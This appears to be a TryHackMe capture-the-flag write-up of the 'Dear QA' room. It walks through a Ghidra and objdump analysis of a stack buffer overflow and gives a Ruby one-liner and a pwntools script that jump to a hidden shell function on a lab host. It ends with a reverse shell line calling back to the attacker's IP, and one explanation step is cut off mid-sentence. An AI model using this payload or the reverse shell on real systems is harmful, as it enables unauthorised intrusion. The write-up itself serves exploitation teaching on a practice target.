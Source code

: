 ```yaml
---
layout: post
title:  "Dear QA"
categories: [tryhackme]
tags: [linux,elf,BOF,ghidra,objdump]
---
```


You can find this machine here : https://tryhackme.com/room/dearqa

### Understanding the `DearQA.DearQA` binary

The `segmentation fault` means that the software has attempted to access a restricted area of memory.
This means that maybe there is a buffer overflow vulnerability

![image]( /assets/img/dearqa/1.PNG)

### Analyzing the `DearQA.DearQA` in Ghidra 

### Main Function

![image]( /assets/img/dearqa/2.PNG)

```bash
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

### Vuln Function

![image]( /assets/img/dearqa/3.PNG)

```bash

void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

- The scanf is vulnerable to buffer overflow
- We know that the buffer size is 32 bytes, let's exploit it
- Also, we found the vuln function, our goal is to jump from the scanf to the vuln function
- This is possible by using the buffer overflow attack and call the address of the vuln function

### Finding the addresses using the objdump

```bash
objdump -d ./DearQA.DearQA
```

- main

```assembly
00000000004006c3 <main>:
  4006c3:       55                      push   %rbp
  4006c4:       48 89 e5                mov    %rsp,%rbp
  4006c7:       48 83 ec 20             sub    $0x20,%rsp
  4006cb:       bf 03 08 40 00          mov    $0x400803,%edi
  4006d0:       e8 4b fe ff ff          call   400520 <puts@plt>
  4006d5:       bf 18 08 40 00          mov    $0x400818,%edi
  4006da:       e8 41 fe ff ff          call   400520 <puts@plt>
  4006df:       bf 3e 08 40 00          mov    $0x40083e,%edi
  4006e4:       b8 00 00 00 00          mov    $0x0,%eax
  4006e9:       e8 42 fe ff ff          call   400530 <printf@plt>
  4006ee:       48 8b 05 1b 05 20 00    mov    0x20051b(%rip),%rax
  4006f5:       48 89 c7                mov    %rax,%rdi
  4006f8:       e8 73 fe ff ff          call   400570 <fflush@plt>
  4006fd:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400701:       48 89 c6                mov    %rax,%rsi
  400704:       bf 51 08 40 00          mov    $0x400851,%edi
  400709:       b8 00 00 00 00          mov    $0x0,%eax
  40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
  400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400717:       48 89 c6                mov    %rax,%rsi
  40071a:       bf 54 08 40 00          mov    $0x400854,%edi
  40071f:       b8 00 00 00 00          mov    $0x0,%eax
  400724:       e8 07 fe ff ff          call   400530 <printf@plt>
  400729:       b8 00 00 00 00          mov    $0x0,%eax
  40072e:       c9                      leave  
  40072f:       c3                      ret    
```


- The hex value `0x20` is 32 in decimal 

![image]( /assets/img/dearqa/4.PNG)

- So the following assembly is the same with this c language representation : `undefined local_28 [32];`

```bash
4006c7:       48 83 ec 20             sub    $0x20,%rsp
```

- After that the scanf uses the defined buffer size to read the user input
- So the following assembly is the same with this c language representation : `__isoc99_scanf(&DAT_00400851,local_28);`

```bash
40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
```

- vuln

```assembly

0000000000400686 <vuln>:
  400686:       55                      push   %rbp
  400687:       48 89 e5                mov    %rsp,%rbp
  40068a:       bf b8 07 40 00          mov    $0x4007b8,%edi
  40068f:       e8 8c fe ff ff          call   400520 <puts@plt>
  400694:       bf d0 07 40 00          mov    $0x4007d0,%edi
  400699:       e8 82 fe ff ff          call   400520 <puts@plt>
  40069e:       48 8b 05 6b 05 20 00    mov    0x20056b(%rip),%rax
  4006a5:       48 89 c7                mov    %rax,%rdi
  4006a8:       e8 c3 fe ff ff          call   400570 <fflush@plt>
  4006ad:       ba 00 00 00 00          mov    $0x0,%edx
  4006b2:       be 00 00 00 00          mov    $0x0,%esi
  4006b7:       bf f9 07 40 00          mov    $0x4007f9,%edi
  4006bc:       e8 8f fe ff ff          call   400550 <execve@plt>
  4006c1:       5d                      pop    %rbp
  4006c2:       c3                      ret
```

- The address of `vuln` is 00400686 in hex.

```bash
0000000000400686 <vuln>:
```

### Local exploitation

The little endian format of `0000000000400686` is `\x86\x06\x40\x00\x00\x00\x00\x00`

### Explain the payload

1. "A"*32 to reach the maximum buffer capacity
2. "B"*8 to reach the RSP and put the address of the `vuln` function
3. The 

```bash
ruby -e 'print "A"*32 + "B"*8 + "\x86\x06\x40\x00\x00\x00\x00\x00"' | ./DearQA.DearQA
```

![image]( /assets/img/dearqa/5.PNG)

### Remote Exploitation

```bash
pip3 install pwntools
```

- final script

```python
from multiprocessing import context
from pwn import *


con = remote('10.10.115.156', 5700)

payload  = 'A'*32
payload += 'B'*8
payload += '\x86\x06\x40\x00\x00\x00\x00\x00'

con.recvuntil("What's your name: ")
con.sendline(payload)
con.interactive()
```

- in action & spawn revershe shell

```bash
python3 dearqa.py
sh -i >& /dev/tcp/10.18.45.56/4444 0>&1
```

![image]( /assets/img/dearqa/6.PNG)



